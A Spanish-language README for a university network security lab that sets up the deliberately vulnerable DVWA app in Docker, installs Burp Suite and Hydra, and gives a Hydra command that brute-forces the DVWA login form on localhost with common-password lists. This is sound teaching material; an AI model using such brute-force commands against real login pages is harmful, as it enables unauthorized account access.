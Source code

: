 # Laboratorio 2 de Criptografía y Seguridad en redes

Segundo laboratorio de Tomás Díaz Calderón

- Para levantamiento de Docker, descargar carpeta de https://github.com/digininja/DVWA y escribir:

      sudo docker compose up -d
- Para la descarga de Burpsuite, ir a https://portswigger.net/burp/communitydownload
- Luego de descargar el archivo .sh, ingresar:
-     chmod +x burpsuite\_community\_linux\_v2025\_2\_4.sh
      sudo burpsuite\_community\_linux\_v2025\_2\_4.sh
- Para la descarga de Hydra, se debe ingresar:
-       sudo apt install hydra
- Para ver la versión instalada, sintaxis y opciones, basta con ingresar "hydra" en la terminal.
- El comando para su uso corresponde a:
-       hydra 127.0.0.1 -s 8080 -L usuarios.txt -P 200_contrasenas_mas_usadas.txt http-get-form "/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:H=Cookie: PHPSESSID=7c94922a8fce407024d5c9438fb33525; security=low; :F=Username and/or password incorrect."
-   Donde se debe reemplazar el PHPSESSID por el propio.

